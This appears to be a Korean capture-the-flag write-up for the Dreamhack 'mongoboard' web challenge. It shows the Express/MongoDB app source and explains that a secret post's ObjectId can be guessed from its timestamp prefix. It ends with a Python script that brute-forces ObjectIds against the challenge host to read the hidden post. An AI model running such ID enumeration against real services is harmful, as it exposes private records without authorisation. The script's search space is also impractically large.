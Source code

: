## mongoboard (풀이 봄)
---

+ app.js

```javascript
var express     = require('express');
var app         = express();
var bodyParser  = require('body-parser');
var mongoose    = require('mongoose');
var path        = require('path');

// Connect to MongoDB
var db = mongoose.connection;
db.on('error', console.error);
db.once('open', function(){
    console.log("Connected to mongod server");
});
mongoose.connect('mongodb://localhost/mongoboard');

// model
var Board = require('./models/board');

// app Configure
app.use('/static', express.static(__dirname + '/public'));
app.use(bodyParser.urlencoded({ extended: true }));
app.use(bodyParser.json());

app.all('/*', function(req, res, next) {
  res.header("Access-Control-Allow-Origin", "*");
  res.header("Access-Control-Allow-Methods", "POST, GET, OPTIONS, PUT");
  res.header("Access-Control-Allow-Headers", "Content-Type");
  next();
});

// router
var router = require(__dirname + '/routes')(app, Board);
app.get('/', function(req, res) {
    res.sendFile(path.join(__dirname + '/index.html'));
});

// run
var port = process.env.PORT || 8080;
var server = app.listen(port, function(){
 console.log("Express server has started on port " + port)
});

```

<br>

+ routes/index.js

```javascript
module.exports = function(app, MongoBoard){
    app.get('/api/board', function(req,res){
        MongoBoard.find(function(err, board){
            if(err) return res.status(500).send({error: 'database failure'});
            res.json(board.map(data => {
                return {
                    _id: data.secret?null:data._id,
                    title: data.title,
                    author: data.author,
                    secret: data.secret,
                    publish_date: data.publish_date
                }
            }));
        })
    });

    app.get('/api/board/:board_id', function(req, res){
        MongoBoard.findOne({_id: req.params.board_id}, function(err, board){
            if(err) return res.status(500).json({error: err});
            if(!board) return res.status(404).json({error: 'board not found'});
            res.json(board);
        })
    });

    app.put('/api/board', function(req, res){
        var board = new MongoBoard();
        board.title = req.body.title;
        board.author = req.body.author;
        board.body = req.body.body;
        board.secret = req.body.secret || false;

        board.save(function(err){
            if(err){
                console.error(err);
                res.json({result: false});
                return;
            }
            res.json({result: true});

        });
    });
}
```

<br>

+ models/board.js

```javascript
var mongoose = require('mongoose');
var Schema = mongoose.Schema;

var boardSchema = new Schema({
    title: {type:String, required: true},
    body: {type:String, required: true},
    author: {type:String, required: true},
    secret: {type:Boolean, default: false},
    publish_date: { type: Date, default: Date.now  }
}, {versionKey: false });

module.exports = mongoose.model('board', boardSchema);
```

<br><br>

## Solution (풀이 봄)
---

Link : <a href="https://domdom.tistory.com/entry/MongoDB-몽고디비-ObjectId-와-날짜datetime-간의-변환하기convert" target="_blank">domdom.tistory.com/entry/MongoDB-몽고디비-ObjectId-와-날짜datetime-간의-변환하기convert</a>

<br>

흠.. objectid와 timestamp 간의 변환이 가능하다고 한다.. 

즉, flag의 objectid는 timestamp 값을 objectid로 변환한 값인 것이다.

단, 여기서 objectid에 대해 알아가야 하는데 그건 위의 링크에 설명되어 있다.

정리하면 objectid는 12byte의 값인데 앞의 4바이트는 timestamp 값을 변환한 것이고, 나머지 8바이트는 mongodb에서 지정한 랜덤 값으로 이루어져 있다.

따라서 브루트포스로 objectid를 게싱해서 flag의 게시글에 들어가면 된다.

<br>

```python
import requests
import itertools


headers={'Content-Type':'application/json; charset=utf-8'}

text = '0123456789abcdef'
b = itertools.product(text, repeat=16)

for i in b:
	objid = '629d545b' + ''.join(i)
	print("objid : ", objid)
	url = 'http://host1.dreamhack.games:23311/api/board/'+objid
	res = requests.get(url, headers=headers)
	if "error" not in res.text:
		print(res.text)
```

<br>
